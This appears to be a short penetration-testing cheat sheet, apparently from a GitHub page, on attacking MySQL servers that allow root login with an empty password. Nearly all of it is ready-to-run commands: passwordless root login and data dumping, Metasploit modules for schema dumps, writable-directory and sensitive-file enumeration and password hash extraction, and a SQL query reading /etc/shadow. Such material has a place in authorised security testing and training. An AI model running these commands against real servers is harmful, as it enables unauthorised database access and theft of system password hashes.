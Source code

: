 ```Shell
mysql -h <ip-address> -u root
```

> This command can be used to connect to `mysql` through a particular user without any specific password: 

`show databases;`: This command is used to show data bases.
`use <name>;`: This command is used to use a specific data base.
`show tables;`: This command can be used to show the elements of Database. 

```sql
SELECT * FROM table_name;
```

>This command retrieves all the data from a specific table.

```msfconsole
msfconsole -q
use auxiliary/scanner/mysql/mysql_schemadump
set RHOSTS <ip-address>
set USERNAME root
set PASSWORD ""
exploit
```

> Dump the schema of all databases from the server using metasploit module.

```msfconsole
use auxiliary/scanner/mysql/mysql_writable_dirs
set DIR_LIST /usr/share/metasploit framework/data/wordlists/directory.txt
set RHOSTS <ip-address>
set VERBOSE false
set PASSWORD ""
exploit
```

> Tells if there are any writeable directories or not.

```msfconsole
use auxiliary/scanner/mysql/mysql_file_enum
set RHOSTS <ip-address>
set FILE_LIST /usr/share/metasploit-framework/data/wordlists/sensitive_files.txt
set PASSWORD ""
exploit
```

> Tells about any readable files.

```SQL
select load_file("/etc/shadow");
```

> This command reads the contents of the system's `/etc/shadow` file, which stores encrypted password information for Linux user accounts.

```msfconsole
use auxiliary/scanner/mysql/mysql_hashdump
set RHOSTS <ip-address>
set USERNAME root
set PASSWORD ""
exploit
```
